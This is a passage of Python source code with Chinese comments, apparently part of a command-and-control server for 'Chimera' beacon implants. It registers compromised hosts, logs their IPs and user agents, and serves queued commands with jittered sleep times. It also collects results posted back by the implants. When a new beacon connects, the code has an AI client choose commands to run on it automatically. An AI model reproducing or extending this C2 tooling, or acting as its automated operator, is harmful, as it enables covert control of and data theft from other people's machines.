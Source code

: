```python
    """处理单个Beacon的HTTP请求（GET或POST）"""
    request_data = client_socket.recv(4096).decode('utf-8', errors='ignore')
    if not request_data:
        client_socket.close()
        return

    # 解析请求方法和路径
    first_line = request_data.split('\n')[0]
    method, path, _ = first_line.split()

    # 提取Beacon ID（假设它在请求头中）
    headers = dict(line.split(": ", 1) for line in request_data.split('\r\n')[1:] if ": " in line)
    beacon_id = headers.get("X-Chimera-ID", None)

    with BEACON_LOCK:
        if not beacon_id or beacon_id not in BEACONS:
            beacon_id = str(uuid.uuid4())
            BEACONS[beacon_id] = {
                "id": beacon_id, "last_seen": datetime.utcnow(), "ip": client_socket.getpeername()[0],
                "os": headers.get("User-Agent"), "sleep": int(config.get('beacon', 'sleep_time')), "jitter": float(config.get('beacon', 'jitter'))
            }
            TASK_QUEUE[beacon_id] = []
            RESULTS[beacon_id] = []
            print(f"[+] 新奇美拉Beacon上线: {beacon_id} from {BEACONS[beacon_id]['ip']}")
        
            # AI自动接管
            if ai_client:
                commands = ai_client.solicit_decision(BEACONS[beacon_id])
                TASK_QUEUE[beacon_id].extend(commands)
        else:
            BEACONS[beacon_id]["last_seen"] = datetime.utcnow()

    response = ""
    # --- GET请求：Beacon请求任务 ---
    if method == "GET" and path in config.get('http-get', 'uri').split(','):
        task = {"command": "sleep", "args": BEACONS[beacon_id]["sleep"]} # 默认任务
        with BEACON_LOCK:
            if TASK_QUEUE.get(beacon_id):
                task = TASK_QUEUE[beacon_id].pop(0)
    
        # 随机化sleep时间
        sleep_time = int(task['args']) if task['command'] == 'sleep' else 0
        jitter_amount = int(sleep_time * BEACONS[beacon_id]['jitter'])
        final_sleep = sleep_time + random.randint(-jitter_amount, jitter_amount)
        if task['command'] == 'sleep': task['args'] = final_sleep

        response = json.dumps(task)

    # --- POST请求：Beacon回传数据 ---
    elif method == "POST" and path in config.get('http-post', 'uri').split(','):
        body_start = request_data.find("\r\n\r\n") + 4
        result_data = json.loads(request_data[body_start:])
        with BEACON_LOCK:
            RESULTS[beacon_id].append(result_data)
        print(f"[*] 收到来自 {beacon_id} 的结果: {result_data['output'][:50]}...")
        response = "OK" # 简单的确认

    http_response = f"HTTP/1.1 200 OK\r\nContent-Type: text/html\r\nContent-Length: {len(response)}\r\n\r\n{response}"
    client_socket.sendall(http_response.encode())
    client_socket.close()
```